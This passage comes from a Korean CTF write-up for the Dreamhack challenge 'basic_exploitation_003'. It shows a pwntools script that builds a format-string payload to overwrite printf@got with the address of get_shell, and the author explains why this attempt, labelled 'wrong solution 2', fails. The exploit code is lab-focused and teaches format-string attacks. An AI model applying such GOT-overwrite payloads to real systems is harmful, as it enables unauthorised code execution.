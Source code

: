 <img width="745" alt="image" src="https://github.com/user-attachments/assets/4e453001-22cd-4cd5-b197-86273f6d896c">

<br>

### 틀린 풀이 방법 2.

```py
from pwn import *

context.arch = "i386"

p = remote("host3.dreamhack.games", 12415)
elf = ELF("./basic_exploitation_003")

get_shell = elf.symbols['get_shell']
# get_shell = 0x8048669
# 0x0804 = 2052
# 0x8669 = 34409

printf_got = elf.got['printf']
# printf_got = 0x804a010

# 34409 - 2052 = 32357
payload = b"%2052c%7$hn"    # 11bytes
payload += b"%32357c%8$hn"  # 12bytes
payload += b"a"             # 여기까지 24bytes
payload += p64(printf_got + 2)
payload += p64(printf_got)

p.send(payload)
p.interactive()
```

위에서 얘기한 방법에서 `return_address`가 저장된 스택의 주소에 쓰는게 아니라 `printf@got`를 `get_shell`으로 조작하려고 했는데, 처음에 `sprintf()`의 특성을 제대로 이해하지 못해서 생각한 방법이고, 실제로는 불가능한 논리이다.

1. 일단 틀린 풀이 방법 1.처럼 `stack_buf`에 `payload` 문자열 자체를 저장해줘야 하는데, 포맷 스트링 문자열 자체가 아닌 포맷 스트링으로 출력되는 문자열이 `stack_buf`에 대입되므로 불가능하고,

2. 위 논리대로 `stack_buf`에 포맷 스트링 문자열 자체를 대입해주더라도, `printf("ECHO : %s\n", stack_buf);`에서 실제 `FSB` 공격을 통해 `printf@got`에 `get_shell`의 주소를 대입해야 하는데, `printf`를 수행하고 난 다음에 `printf@got`에 `get_shell`의 주소를 넣어주면 막상 `printf`를 호출했을 때는 `get_shell`이 실행되지 않기 때문에 아예 틀린 순서이긴 하다.

3. 그리고 사실 2.에서도 논리 오류가 있는게 앞에서 설명했듯이 `printf("ECHO : %s\n", stack_buf);`에서 실제 `FSB` 공격이 안되기도 한다.
